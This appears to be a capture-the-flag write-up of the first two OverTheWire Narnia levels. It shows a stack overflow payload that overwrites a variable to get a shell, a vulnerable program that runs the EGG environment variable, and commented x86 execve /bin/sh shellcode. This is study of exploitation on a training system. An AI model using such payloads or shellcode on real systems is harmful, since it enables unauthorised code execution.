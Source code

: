 Examining the stack just after `scanf` returns we can see our input at `0xffffd718` and `val` just after it at `0xffffd72c`. In order to get the shell we need `val` to be `0xdeadbeef`, but since x86 is little endian, multibyte values are stored in reverse order in memory.

```
[idosch@nacho ~]$ python2 -c "print '\x41'*20 + '\xef\xbe\xad\xde'" | xclip -i
arnia0@melinda:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance:
buf:
val: 0xdeadbeef
$ whoami
narnia1
```

Note that I didn't include the flag and input. The latter is because octopress has problem showing non-standard characters.

Level 1:
--------

```
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

This one is pretty straightforward. A shellcode should be placed in the env-variable `EGG` (which is located on the stack), so that a shell is spawned with permissions of `narnia2`.

First, lets check that the stack is indeed executable:

```
narnia1@melinda:/narnia$ readelf -a narnia1 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
```

Writing a shell-spawning shellcode is described in a lot of places so i'll simply paste mine here with comments:

```
BITS 32

; int execve(const char *path, char *const argv[], char *const envp[])

xor eax, eax        ; zero eax
push eax            ; null terminate the string
push 0x68732f2f     ; push //sh (// is same as / for our purpose)
push 0x6e69622f     ; push /bin
mov ebx, esp        ; pass first argument using ebx
push eax            ; third argument is empty
mov edx, esp
push eax            ; second argument is empty
mov ecx, esp
mov al, 11          ; execve is system call #11
int 0x80            ; issue an interrupt
```